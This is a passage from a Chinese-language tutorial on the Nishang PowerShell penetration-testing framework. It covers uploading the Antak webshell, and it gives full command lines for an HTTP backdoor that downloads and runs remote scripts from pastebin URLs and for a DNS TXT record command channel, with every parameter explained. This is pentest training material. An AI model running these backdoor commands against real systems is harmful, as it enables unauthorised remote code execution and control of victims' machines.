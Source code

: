 ```powershell
上传Webshell后把它当成一个正常的Powershell执行窗口来使用
上传和下载文件，只需要填写好对应路径点击上传、下载按钮即可
```
关于Antak Webshell的更多介绍，请参考：
http://www.labofapenetrationtester.com/2014/06/introducing-antak.html

### 3.后门
#### HTTP-Backdoor
HTTP-Backdoor可以帮助我们在目标机器上下载和执行Powershell脚本
执行方式：

```powershell
PS > HTTP-Backdoor -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -PayloadURL http://pastebin.com/raw.php?i=Zhyf8rwh -Arguments Get-Information -MagicString start123 -StopString stopthis
```
下面解释下几个比较重要的参数：
* CheckURL 给出一个URL地址，如果存在我们MagicString中的值就去执行Payload - 下载运行我们的脚本
* PayloadURL 这个参数给出我们需要下载的Powershell脚本的地址
* Arguments 这个参数指定我们要执行的函数
* StopString 这个参数也会去看是否存在我们CheckURL返回的字符串，如果存在就会停止执行
#### DNS_TXT_Pwnage
利用DNS隧道来进行信息传输、通信的小技巧已经不少见了。在Nishang中也集成了一个通过DNS TXT来接收命令或者脚本的后门脚本。使用DNS_TXT_Pwnage这个脚本，我们一般需要配合Utility下的Out-DnsTxt使用。
所以这里首先说下Out-DnsTxt的使用：

```powershell
PS >Out-DnsTxt -DataToEncode path //path处是你想编码的内容的路径
```
之后，它会生成一个编码后的文件，如下图所示
![out-dnstxt](https://raw.githubusercontent.com/myoss114/oss/master/uPic/framework/out-dns.jpg)
然后我们去添加对应的TXT记录就行了，encoded.txt文件中每一行为一条记录
添加完后我们还需要添加两条TXT记录，内容为start和stop
添加完成后，我们就可以利用DNS_TXT_Pwnage这个脚本了
执行方式：

```powershell
PS >DNS_TXT_Pwnage -startdomain start.test.com -cmdstring start -commanddomain command.test.com -psstring test -psdomain xxx.test.com -Subdomains 1 -StopString stop
```
具体参数的意思：
*  startdomain 会一直去检测我们指定域名的TXT记录，并把返回的记录与我们输入的cmdstring以及psstring进行比较
* cmdstring 是我们任意输入的字符串，如果startdomain与我们这里输入的cmdstring值相等则执行commanddomain命令
* commanddomain 创建的执行命令TXT记录的域名
* psstring 是我们任意输入的字符串，如果与我们这里输入的psstring值相等则执行psdomain脚本
* psdomain 是我们创建的执行脚本TXT记录的域名
* Subdomains 是执行脚本创建TXT记录的个数
* StopString 是任意输入的字符串，如果这里输入的字符串与startdomain中返回的记录相同将会停止执行我们的Payload
* Arguments 指定要执行的函数名
#### Execute-OnTime
执行方式：

